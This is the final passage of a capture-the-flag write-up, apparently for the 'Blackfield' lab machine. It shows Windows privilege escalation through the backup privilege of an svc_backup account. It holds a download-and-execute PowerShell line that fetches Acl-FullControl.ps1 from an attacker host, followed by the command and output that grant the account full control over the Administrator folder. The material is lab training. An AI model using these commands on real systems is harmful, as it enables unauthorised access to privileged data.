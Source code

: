 In a nutshell, it causes the system to grant all read access control to any file (read only). So, we could read the **root.txt** by abusing this token. 

Using a tool called [Acl-FullControl.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1), we were able to change the access rights of the **svc_backup** and allow him to read the **administrator** folder.

```bash
*Evil-WinRM* PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.97/Acl-FullControl.ps1')
*Evil-WinRM* PS C:\> Acl-FullControl -user blackfield\svc_backup -path c:\users\administrator
[+] Current permissions:

Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BLACKFIELD\Administrator Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:P(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)

[+] Changing permissions to c:\users\administrator
[+] Acls changed successfully.

Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BLACKFIELD\Administrator Allow  FullControl
         BLACKFIELD\svc_backup Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-4194615774-2175524697-3563712290-1413)
```

Now, we should have the necessary rights to read the **root.txt** file and get the **second flag**.

```bash
*Evil-WinRM* PS C:\> dir c:\Users\Administrator\Desktop\root.txt


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/5/2020   8:38 PM             32 root.txt
```

Awesome! I hope you enjoyed it, I know I did :)